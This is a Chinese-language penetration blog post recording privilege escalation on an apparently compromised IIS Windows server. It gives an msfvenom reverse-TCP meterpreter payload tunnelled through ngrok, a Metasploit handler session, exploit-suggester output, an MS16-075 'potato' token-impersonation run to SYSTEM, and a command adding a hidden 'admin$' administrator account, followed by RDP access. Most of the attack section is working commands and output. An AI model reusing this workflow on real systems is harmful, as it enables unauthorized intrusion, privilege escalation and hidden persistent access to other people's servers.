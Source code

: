 ```yaml
---
layout: post
title: "Msf+ngrok 提权过程记录"
subtitle: "Msf+ngrok 提权过程记录"
date: 2019-08-12
author: ppbibo
category: 提权
finished: true
---
```

[TOC]

##### PS：

##### 这里主要记录下提权的过程，所以shell过程就不说了，前阵子经九世大佬传授内网渗透，复习AND总结。



## 0x1 

拿到shell 查看了一个当前的权限 `whoami`

![tiquan1](/static/img/tiquan1.png)



查看进程 `tasklist` 发现无杀毒软件。

![tiquan2](/static/img/tiquan2.png)



## 0x2 MSF+ngrok 反弹获取 meterpreter 

`ngrok tcp 4444`

![tiquan3](/static/img/tiquan3.png)

**msfvenom 制作木马&&上传到webshell中**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER IP> LPORT=<SERVER PORT> -f exe > /Users/ppbibo/Desktop/2.exe
```

**msfconsole 接收会话**

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run
```

尝试 `getsystem` 失败，执行 `shell` 进入到 dos 命令查看当前打的补丁`systeminfo`

```bash
>systeminfo
                  [01]: KB2894852
                  [02]: KB2894856
                  [03]: KB2896496
                  [04]: KB2919355
                  [05]: KB2919442
                  [06]: KB2934517
                  [07]: KB2934520
                  [08]: KB2938066
                  [09]: KB2938772
                  [10]: KB2949621
                  [11]: KB2954879
                  [12]: KB2955164
                  [13]: KB2959626
                  [14]: KB2965500
                  [15]: KB2966826
                  [16]: KB2966828
                  [17]: KB2967917
                  [18]: KB2968296
                  [19]: KB2971203
                  [20]: KB2972103
                  [21]: KB2972213
                  [22]: KB2973114
                  [23]: KB2973448
                  [24]: KB2975061
    							....... 此处省略一大堆
```

[提权辅助页面](https://bugs.hacking8.com/tiquan/)

进入到提权辅助页面进行比对，然后一个个的试= =



## 0x3 MSF自动识别系统存在哪些漏洞并提供最合适的exp

```bash
use multi/recon/local_exploit_suggester
// 实战中我们在拿到一个反弹shell后(meterpreter)下一步会进行提权操作，而metaspolit的内置模块Local Exploit Suggester。这个模块可以帮助我们识别系统存在哪些漏洞可以被利用，并且为我们提供最合适的exp，通过这个exp我们可以进一步提权。
```

推荐下面几个exp

```bash
[+] 127.0.0.1 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
```

测试均提示利用成功但没有会话返回，用九世哥哥的一句话就是毛用没有。

然后去之前的提权辅助页面进行 ms16_075 搜索看能不能利用

![tiquan4](/static/img/tiquan4.png)

链接：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

利用方式在链接中给出来了 **RT：**

![tiquan5](/static/img/tiquan5.png)

```bash
msf5 exploit(multi/handler) > set ExitOnsession false
ExitOnsession => false
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 3832 created.
Channel 1 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 1980 created.
Channel 2 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

执行的时候`SYSTEM` 的 `Impersonation Tokens Available` 会消失，多执行几遍就可以了，如上：

**拿到SYSTEM权限执行shell 进入到DOS命令下添加影子账户即可**

```bash
net user admin$ Passw@rd1. /add && net localgroup administrators admin$ /add
```

**RDP远程桌面端口查询**

![](/static/img/tiquan6.png)

**远程连接 RT:**

![tiquan7](/static/img/tiquan7.png)



#### RID会话劫持，退出服务器。



## 总结

没啥总结的，做个笔记。




------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***
